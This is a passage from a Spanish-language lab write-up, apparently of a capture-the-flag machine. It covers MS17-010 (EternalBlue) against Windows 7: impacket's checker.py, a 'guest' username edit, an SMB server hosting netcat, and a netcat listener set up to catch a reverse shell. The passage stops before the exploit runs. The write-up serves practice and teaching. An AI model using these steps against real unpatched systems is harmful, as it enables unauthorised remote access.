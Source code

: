 Instalamos la `versión 0.19` de `impacket` desde el `gestor` de `paquetes` de `Pycharm`, una vez hecho eso `ejecutamos` el `checker` desde la misma `consola` de `Pycharm`

```
# python2 checker.py 10.129.204.243
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_ACCESS_DENIED
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: STATUS_ACCESS_DENIED
```

Vemos que todos los `named pipes` con devuelven un `STATUS_ACCESS_DENIED`, esto es debido a que en el `checker.py` tenemos que añadirle que como nombre de usuario use `guest`

```
USERNAME = 'guest'
PASSWORD = ''
```

Una vez hecho eso, si lo volvemos a `ejecutar` nos `detectará` los `named pipes` correctamente

```
# python2 checker.py 10.129.204.243 
Target OS: Windows 7 Professional 7601 Service Pack 1
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (64 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (64 bit)
browser: Ok (64 bit)
```

Nos `descargamos` el `netcat` [https://eternallybored.org/misc/netcat/](https://eternallybored.org/misc/netcat/) y nos `creamos` un `servidor SMB` en la ruta donde se encuentra el `binario`

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Nos ponemos en `escucha` en nuestra equipo por `netcat`

```
# nc -nlvp 9003
```

Si `ejecutamos` el `zzz_exploit.py` nos va a dar un error y eso es debido a que debemos añadir el username `guest` al código

```
USERNAME = 'guest'
PASSWORD = ''
```
